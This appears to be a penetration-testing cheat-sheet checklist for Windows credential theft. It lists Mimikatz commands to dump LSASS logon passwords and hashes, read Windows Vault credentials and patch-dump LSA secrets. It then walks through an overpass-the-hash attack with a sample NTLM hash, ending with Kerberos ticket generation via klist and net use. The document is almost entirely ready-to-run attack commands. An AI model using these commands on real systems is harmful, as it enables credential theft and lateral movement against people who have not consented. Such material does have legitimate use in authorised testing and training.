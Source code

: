- [ ] Dump hashes of all logged-on users stored in LSASS including cached hashes on the Target Machine
```
.\mimikatz.exe
privilege::debug
token::elevate
sekurlsa::logonpasswords
```
```
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

- [ ] Dump saved credentials in the Windows Vault on the Target Machine
```
.\mimikatz.exe
privilege::debug
token::elevate
vault::list
```
```
.\mimikatz.exe "privilege::debug" "token::elevate" "vault::list" "exit"
```

- [ ] Dump hashes from memory from LSASS.exe (LSA server) on the Target Machine
```
.\mimikatz.exe
privilege::debug
token::elevate
lsadump::lsa /patch
```
```
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::lsa /patch" "exit"
```

- [ ] Crack the hashes on your Kali Machine or use for PtH
#### Over Pass the Hash
- [ ] Creating a process as another user by passing the hash on the Target Machine
```
sekurlsa::pth /user:salesman /domain:hentai.com /ntlm:9b4cc9df64653763798290efd18e3175 /run:powershell
```

- [ ] List Kerberos tickets as that user, on the Target Machine
```
klist
```

- [ ] Generate a TGT by authenticating to a network share as that user, on the Target Machine
```
net use \\files69
```
- Any command that requires domain permissions would subsequently create a TGS
- In essence, this turns an NTLM hash into a Kerberos ticket and avoids the use of NTLM authentication
- We may reuse the TGT

- [ ] List the newly requested Kerberos tickets on the Target Machine
```
klist
```
